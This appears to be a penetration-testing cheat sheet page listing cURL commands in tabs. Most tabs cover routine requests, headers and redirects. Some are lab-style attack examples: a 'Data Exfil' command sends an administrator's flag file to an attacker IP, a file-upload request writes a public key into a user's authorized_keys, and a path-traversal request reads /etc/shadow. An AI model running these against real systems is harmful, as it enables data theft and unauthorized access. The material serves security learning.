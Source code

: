 # cURL

## Usage

{% tabs %}
{% tab title="GET" %}
```bash
curl http://example.com
```
{% endtab %}

{% tab title="POST" %}
{% code overflow="wrap" %}
```bash
# When -d is used it defaults to POST
curl -d 'username=user&password=pass' http://example.com/register

# Upload a file via multipart/form-data
curl -X POST http://<target-IP>/file-upload -H "Content-Type: application/x-pem-file" -F file=@id_rsa.pub -F filename=/home/bob/.ssh/authorized_keys --proxy 127.0.0.1:8080
```
{% endcode %}
{% endtab %}

{% tab title="Headers" %}
{% code overflow="wrap" %}
```bash
# Defaults to 'application/x-www-form-urlencoded'
curl -H 'Content-Type: application/json" -d '{"username":"user","password":"pass"}' http://example.com/register
```
{% endcode %}
{% endtab %}

{% tab title="Response Headers" %}
```bash
# Defaults to returns just the response body
curl -i http://example.com/register
```
{% endtab %}

{% tab title="Redirections" %}
```bash
curl -L <URL>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Banner Grabbing" %}
```bash
curl <--head | -I> <IP:PORT>
```
{% endtab %}

{% tab title="Status Code Extraction" %}
```bash
curl -s <URL> -L -o /dev/null -w "%{http_code}"
```
{% endtab %}

{% tab title="JSON" %}
```bash
curl <URL> | json_pp
```
{% endtab %}

{% tab title="Data Exfil" %}
```bash
curl http://10.10.14.10/$(type c:\users\administrator\desktop\flag.txt)
```
{% endtab %}

{% tab title="FI" %}
When testing File Inclusion vulnerablities with `curl` use the `--path-as-is` option which tells `curl` **not to normalize or modify the URL path**. Normally, `curl` (and many HTTP clients) **normalize** paths by resolving or decoding things like: `.` and `..` in URLs, encoded characters like `%2F` into `/`, duplicate slashes `//`, etc. which can sometimes change the actual request path sent to the server.

{% code overflow="wrap" %}
```bash
x7331@kali:~$ curl --path-as-is http://localhost:7777/../../../../../../../../etc/shadow
```
{% endcode %}
{% endtab %}
{% endtabs %}
